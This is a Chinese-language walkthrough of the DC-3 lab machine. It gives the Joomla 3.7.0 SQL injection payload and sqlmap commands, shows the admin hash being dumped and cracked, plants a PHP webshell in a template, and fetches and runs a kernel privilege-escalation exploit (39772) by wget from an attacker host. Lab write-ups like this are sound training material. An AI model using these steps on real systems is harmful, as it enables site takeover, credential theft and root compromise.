DC-3靶机渗透

从这个靶机开始就只有一个flag了

## 信息收集

扫描存活主机



发现靶机ip(192.168.3.38)

对靶机进行端口扫描



只开放了80端口

访问80端口



对网站进行扫描



发现administrator目录,访问发现是管理员登陆目录



chrome插件看看cms相关信息



网上看师傅们的渗透经过,用dirsearch是可以扫到一个README.txt的



此外我还扫到了web.config.php和robots.txt.dist不过并没有什么用



这里给出了Joomla的版本号是3.7,wappalyzer插件的不足就是没给出版本号

除此之外,joomla这个框架有一个JoomScan扫码枪，我们可以尝试通过此扫描器获取一些有用的信息

安装命令:

```
git clone https://github.com/rezasp/joomscan.git
cd joomscan
```

对joomla框架的网站进行扫描

```
perl joomscan.pl -u 192.168.3.38
```



也能发现其版本号是3.7.0,网上搜索发现存在SQL注入



## SQL注入

msf中存在此漏洞



不过在msf中并不能成功利用这个漏洞



无奈只能去searchsploit搜索利用方法

直接`searchsploit joomla`返回的结果太多,我们可以直接指定版本搜索

```
searchsploit joomla 3.7.0
```



看一下利用方法

```
cat /usr/share/exploitdb/exploits/php/webapps/42033.txt
```



给出了payload

```
http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
```

当然网上搜索这个3.7.0的sql注入漏洞也能看到payload,告诉我们还可以利用sqlmap跑,也给出了payload

```
sqlmap -u "http://192.168.3.38/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch
```



然后爆表



进入#__users表

```
sqlmap -u "http://192.168.3.38/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" -D joomladb -T '#__users' --dump
```

需要注意的是，这里我们要去掉`--batch`参数，不让它执行默认的选项，因为我们需要进行一些选择



拿到admin的password,但是这个加密了的password

通john进行密码爆破

```
vim 1.txt
john 1.txt --show 	#show参数可要可不要
```



爆破出来密码是snoopy

然后去我们之前找到的管理员登陆界面登陆



成功登陆

## 深度扫描

登陆admin后,我们就对更多目录有了访问权限,可能会出现其他的漏洞,可以对网站进行一次深度的扫描

可以利用AWVS工具,安装直接网上搜教程

扫描网站,先Add a new Target





然后save,设置site login选项,其他的不管




扫到了挺多的



虽然这里不能直接利用,但是生成的报告有利于我们后续渗透的思路

82个高危,里面包含了SQL注入、XSS、CSRF、文件上传、文件包含、目录遍历等多个

## GetShell



发现存在任意文件上传

不过这个工具并没有给出url,不过给出了应该参考链接



看到利用方式



在extensions->templates->templates中找到上传点



有两个图片随便点一个,发现上传点



这里直接上传一个new file好像不行



不过我可以直接创建一个php文件,写个马进去



虽然他这里说的`Editing file "/html/shell.php" in template "beez3"`,但是真是的路径是templates而不是template

```
http://192.168.3.38/templates/beez3/html/shell.php
```



上传成功,蚁剑直接连

用蚁剑的虚拟终端找flag

```
find / -name 'f*'
```

找了一圈没有看到flag,可能在根目录下,现在是www-data权限,需要提权

## 反弹shell

因为正向shell无法提权，反弹shell才能成功提权

可以直接curl反弹shell





不过这里我是直接在页面执行的命令,执行在蚁剑里面反弹shell没有成功



都没有成功

如果大家没有交互式的Shell，可以通过python反弹一个交互式shell：

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

除此之外也可以用kali里面的蚁剑(weevely)直接连接shell

```
weevely generate test test.php	#生成后面文件test.php

复制内容到创建的文件test.php里面去

weevely http://192.168.200.14/templates/beez3/test.php test	#连接shell
```

## 权限提升

SUID提权并没有发现可用的

考虑内核提权

查看当前操作系统版本信息

```
cat /proc/version
```

查看版本当前操作系统发行版信息

```
cat /etc/issue
```



searchsploit看看ubuntu16.04具有的提权洞



Local Privilege Escalation的洞就是提权洞,看到了又好几个

网上的教程给出来的提权洞是



用法如下



给出了脚本的github链接

```
https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

我直接在dc-3上用wget下载并没有成功



下载下来直接用蚁剑传到dc-3上



当然如果没有上传权限,可以尝试将文件放在vps的网站根目录上,然后使用wget下载,因为虚拟机是互通的我就可以直接放在kali的`/var/www/html`下

```
wget http://192.168.3.40/39772.zip
```

对上传到dc-3的文件解压

```
unzip 39772.zip
```

对里面的压缩包再解压

```
tar -xvf 39772/exploit.tar
```



进入脚本目录

```
cd ebpf_mapfd_doubleput_exploit
```

进行编译

```
./compile.sh
```

执行代码进行提权

```
./doubleput
```



提权成功,拿到flag



参考链接

https://www.cxyzjd.com/article/qq_45924653/107436226

https://blog.csdn.net/cjx529377/article/details/107835886

https://juejin.cn/post/6861055684382588942#heading-4

